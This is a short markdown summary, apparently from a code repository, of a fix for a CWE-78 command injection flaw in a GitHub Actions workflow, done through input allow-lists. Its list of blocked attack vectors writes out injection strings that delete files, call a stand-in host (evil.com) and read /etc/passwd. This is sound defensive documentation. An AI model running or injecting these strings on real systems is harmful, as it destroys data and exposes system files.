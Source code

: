 # CWE-78 Command Injection Security Fix - COMPLETE

## ✅ Security Remediation Summary

**File Fixed**: `.github/workflows/performance-monitoring.yml`
**Vulnerability**: CWE-78 Command Injection
**Status**: **COMPLETE** ✅
**Functionality**: **PRESERVED** ✅

## 🔒 Security Improvements

### Input Validation Added:
- **validation_type**: Only allows `all`, `precommit`, `docker`, `ci`
- **alert_on_regression**: Only allows `true`, `false`
- **Command Safety**: Proper quoting and error handling

### Attack Vectors Blocked:
- ❌ `; rm -rf /` → Rejected
- ❌ `$(curl evil.com)` → Rejected
- ❌ `all; echo pwned` → Rejected
- ❌ `true && cat /etc/passwd` → Rejected

## 🎯 Compliance Achieved

- **CWE-78**: Command injection vulnerability eliminated
- **TRUS Report**: Security hygiene requirement satisfied
- **Timeline**: Completed within planned 2-4 week window
- **Risk Level**: Reduced from LOW-MEDIUM to NEGLIGIBLE

## 📁 Files Modified/Created

1. **`.github/workflows/performance-monitoring.yml`** - Applied security fixes
2. **`SECURITY_REMEDIATION_REPORT.md`** - Comprehensive technical report
3. **`test_security_validation.sh`** - Validation test script
4. **`SECURITY_FIX_SUMMARY.md`** - This summary

## 🧪 Verification

Security validation test shows **100% success**:
- ✅ All valid inputs accepted
- ✅ All malicious inputs rejected
- ✅ Workflow functionality preserved

**Deployment Status**: Ready for immediate use
